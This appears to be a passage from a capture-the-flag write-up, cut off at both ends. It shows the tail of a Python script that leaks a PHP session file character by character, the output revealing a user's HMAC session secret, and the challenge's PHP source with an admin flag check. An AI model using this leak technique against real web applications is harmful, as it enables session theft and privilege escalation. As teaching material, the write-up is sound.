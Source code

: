 ```python
           h = m
   return chr(l)
 
data = ''
for i in range(100):
   data += leak(i)
   print(data)

```

```bash
$ python leak.py
b
bo
bos
bosy
bosyc
bosycr
bosycre
bosycret
bosycret|
bosycret|s
bosycret|s:
bosycret|s:3
bosycret|s:32
...
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s:
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s:7
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s:7:
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s:7:"

```

Now we have the secret for user with nickname of `</body>`.

```php
$ cat flag.php
<?php

class Note {
    public function __construct($admin) {
        $this->notes = array();
        $this->isadmin = $admin;
    }

    public function addnote($title, $body) {
        array_push($this->notes, [$title, $body]);
    }

    public function getnotes() {
        return $this->notes;
    }

    public function getflag() {
        if ($this->isadmin === true) {
            echo FLAG;
        }
    }
}

function verify($data, $hmac) {
    $secret = $_SESSION['secret'];
    if (empty($secret)) return false;
    return hash_equals(hash_hmac('sha256', $data, $secret), $hmac);
```